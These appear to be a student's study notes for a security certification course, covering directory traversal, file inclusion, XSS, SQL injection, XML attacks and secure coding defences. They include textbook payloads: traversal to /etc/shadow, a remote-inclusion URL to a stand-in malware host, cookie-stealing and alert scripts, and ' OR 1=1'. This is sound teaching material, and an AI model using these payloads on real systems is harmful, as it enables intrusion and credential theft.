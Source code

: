 ### Directory Traversal
- type of injection attack
	- attack occurs when the attacker inserts malicious code through an application interface
- an application attack that allows access to commands, file, and directories that may or
- right, web application directory traversal.
- typically websites are in the` /www_root` folder, so you gotta `../../../` all the way to root, then to `/etc/shadow` or `/etc/passwd` to get the juicy bits
- Unix systems user `../`
- Windows systems use `..\`
	- this is default
	- can be configured to accept `../` as well
- Directory traversals may be used to access any file on a system with the right permissions
- Attackers may use encoding to hide directory traversal attempts
	- `%2e%2e%2f` is `../` be on the lookout
- File Inclusions
	- A web application vulnerability that allows an attacker to either download a file from an arbitrary location on the hose file system or to upload an executable or script file to open a backdoor
	- your infected `.php.jpg` files, as an example
- Remote file Inclusion
	- An attacker executes a script to inject a remote file into the web app or website
	- `https://diontraining.com/login.php?user=http://malware.bad/malicious.php`
		- so, instead of attempting to login with a legitimate username, we’re going to try and upload this malicious php script to get in.
- Local File Inclusions
- Attacker adds a` file to the web app or website that already exists on the hosting server
- this is the poisoned PHP upload
- then just reference` the file that’s been uploaded.
- Exam tips
	- `../` = directory traversal
	- to prevent directory traversals and file inclusion attacks, use proper input validation
### Cross-site Scripting (XSS)
- a malicious script hosted on the attacker’s site or coded in a link injected onto a trusted site, designed to compromise clients browsing the trusted site, circumventing the browser’s security model of trusted zones
	- trying to get you to click on something to run something that your system doesn’t want to do.
- Power input validation exploit
- How does it happen?
	- Attacker identifies input validation vulnerability within a trusted website.
	- Attacker crafts a URL to perform code injection against the trusted website
		- just gotta get someone to click on it, use those phishing emails
	- The trusted site returns a page containing the malicious code injected
		- hides the separate code behind a legitimate page loading
		- input isn’t validated, so the website won’t bounce back an error
	- Malicious code then runs in the client’s browser with permission level as the trusted site
- XSS breaks the browser’s security model since browsers assume scripting is safe
- Jason shows the ol `<script=javascript>alert(‘oh no’)</script>` pop up trick
- that trick is a Reflected or non-persistent XSS attack
- Persistent XSS
	- an attack that inserts code into a back-end database used by the trusted site
- reflected, non-persistent, and persistent XSS attacks occur as server-side scripting attacks
	- because the server executes the code and presents it to your browser
- Document Object Model (DOM) XSS
	- an attack that exploits the client’s web browser using client-side scripts to modify the content and layout of a web page
	- DOM is how you display things in the browser
	- example: `https://diontraining.com/index.html#default=<script>alert(document.cookie)</script>`
		- this is going to load the `document.cookie` from the DOM, attempting to access the cookies
	- DOM XSS attacks run with the logged in user’s privileges of the local system
- Exam Tip: ^exam-tip
	- if you see `<script>` that’s 99% gonna be XSS
	- also “javascript” in the URL
	- to prevent XSS attacks, use proper input validation
	- look for the `document.[thing]` for a DOM XSS
### SQL Injection
- Structured Query Language (SQL) is used to select, insert, delete, or update data within a database
	- select = read from database
	- insert = put in to database
	- delete = remove from database
	- update = replace what’s in database
- How does a normal SQL request work?
	- login example
		- input “jason” for user
		- input “pass123” for password
	- query looks like this:
		- `select * from Users where user_id = ‘jason’ and password = ‘pass123’`
	- if it fails, bad PW or User
- Injection Attack
	- insertion of additional information or code through data input from a client to an application
- an attacker must test every single input to include elements such as URL parameters, form fields, cookies, POST data and HTTP headers to identify a SQL injection vulnerability
- How does an SQL Injection attack work?
	- using example above, input `‘ OR 1=1;`
	- says “find a blank password OR 1=1"
	- because 1 will always = 1, it’s true, so it will return true.
- SQL injection is prevented through input validation and using least privilege when accessing a database
- Exam Tip: ^exam-tip
	- if you see `‘ OR 1=1;` that’s SQL injection
	- to prevent SQL injections, use proper input validation
- Insecure Object Reference
	- Coding vulnerability where unvalidated input is used to select a resource object like a file or database
	- Example:
		- `https://BankOfDion.com/account.php?acct=1234`
		- your account number is right there!
		- change the account number to get a new account
	- Prevention
		- implement access control techniques in applications to verify a user is authorized to access a specific object
### XML Vulnerabilities
- eXtensible Markup Language
- Used for verifications and data exchange/uploading
- Not necessarily “injection” more “parsing”
- XML data submitted without encryption or input validation is vulnerable to spoofing, request forgery, and injection of arbitrary code
- Here’s some exploits:
- XML Bomb (Billion Laughs Attack)
	- XML encodes entities that expand to exponential sizes, consuming memory on the host and potentially crashing it
	- DoS attack
- XML External Entity (XXE)
	- an attack that embeds a request for a local resource
	- that’s a file inclusion attack
	- to prevent this: input validation
- Exam Tips: ^exam-tip
	- If you see XML formatting, it’s an XML exploit
	- look for that “XML”
### Secure Coding
- Input Validation
	- any technique used to ensure that the data entered into a field or variable in an application is handled appropriately by that application
	- whatever you take from a user should be accurate
	- can be conducted locally or on the server
	- Warning
		- client-side input validation is more dangerous since it is vulnerable to malware interference
	- server-side input validation can be time and resource intensive
	- input should still undergo server-side validation after passing client-side validation
	- input should be subjected to:
		- Normalization
			- a string is stripped of illegal characters or substrings and converted to the accepted character set
		- Sanitization
	- Canonicalization Attack
		- attack method where input characters are encoded in such a way as to evade vulnerable input validation measures
		- turning your `../` into `%2e%2e%2f` so that it can bypass any normalization
- Output Encoding
	- Coding methods to sanitize output by converting untrusted input into a safe form where the input is displayed as data to the user without executing as code in the browser.
	- convert `&` to `&amp;`
	- Convert `<` to `$lt;`
	- won’t execute when you display it back to the user
	- Output encoding mitigates against code injection and XSS attacks that attempt to user input to run a script
- Parameterized Queries
	- a technique that defends against SQL injection and insecure object references by incorporating placeholders in an SQL query
- Exam Tip: ^exam-tip
	- need to identify all of these in the exam